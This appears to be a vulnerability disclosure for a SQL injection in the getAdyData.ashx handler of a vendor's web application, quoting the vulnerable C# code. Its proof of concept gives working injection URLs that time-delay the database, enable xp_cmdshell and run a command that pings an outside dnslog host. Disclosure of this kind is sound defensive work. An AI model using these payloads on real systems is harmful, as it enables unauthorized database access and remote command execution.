


# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary Code Execution In getAdyData.ashx

### Summary:
The code in the `ProcessRequest` method of the application lacks proper input validation, allowing for SQL Injection attacks which can lead to Remote Code Execution.

### Affected Endpoint:
URI: `/getAdyData.ashx`

### Vulnerability Type:
SQL Injection leading to Remote Code Execution

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    //sk_peisong_yxt_cardinfo
    var jsonResult = new JsonStr();
    try
    {
        var KeyValue = context.Request.QueryString;
        if (KeyValue.Count == 0)
        {
            jsonResult.Msg_code = ReturnCode.paramater_none;
            jsonResult.Msg_info = "无参数";
        }
        else
        {
            try
            {
                var showid = "";
                var parameter = new SqlParameter[KeyValue.Count - 1];
                int n = 0;
                var logRequestStr = "";
                foreach (string ky in KeyValue.Keys)
                {
                    if ("showid".CompareTo(ky.ToLower()) == 0)
                    {
                        showid = KeyValue[ky];
                    }
                    else
                    {
                        logRequestStr += ky + "=" + KeyValue[ky] + "&";
                        parameter[n++] = new SqlParameter("@" + ky, KeyValue[ky]);
                    }
                }
                Log.Debug("自定义报表，数据：" + showid + " 参数", logRequestStr.Substring(0, logRequestStr.Length - 1));

                var sql = new SqlRun.DBAccess(SqlRun.DBAccess.sqlstr);
                var sqlStr = sql.RunTSqlScalar("SELECT  [TSql]  FROM [MAutoTableShowControl] WHERE ID='" + showid + "'").ToString();
                var dt = sql.RunSQLDR(sqlStr, parameter);
                var keys = dt.Columns.Cast<DataColumn>().Select(d => d.ColumnName.Split('《')[0]).ToArray();
                var keyStr = "SELECT fdname,chnname FROM FLDLIST WHERE fdname in('" + string.Join("','", keys) + "')";

                var dtKey = sql.RunProcedureDR(keyStr);
                var ds = new DataSet();
                ds.Tables.Add(dt);
                ds.Tables.Add(dtKey);
                jsonResult.Msg_code = ReturnCode.pass;
                jsonResult.Msg_info = JsonToAndToJson.ToJson(ds);
            }
```

### Proof of Concept (PoC):
1. Time-based SQL Injection:
```
https://uri/getAdyData.ashx?showid=1';WAITFOR DELAY '0:0:10'--
```

2. Enabling `xp_cmdshell`:
```
https://uri/getAdyData.ashx?showid=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
```

3. Executing arbitrary command:
```
https://uri/getAdyData.ashx?showid=1';exec master..xp_cmdshell 'ping cc4f7d84.log.dnslog.myfw.us.'--
```



### Impact:

An attacker can exploit these SQL Injection vulnerabilities to execute arbitrary SQL commands on the database server, potentially leading to Remote Code Execution and unauthorized access to sensitive information.

### Recommendation:
1. Implement input validation and parameterized queries to prevent SQL Injection attacks.
2. Avoid concatenating SQL queries with user input directly.
3. Regularly update and patch the application to prevent security vulnerabilities.

### Conclusion:
The identified SQL Injection vulnerabilities in the `ProcessRequest` method pose a significant security risk and should be addressed promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection

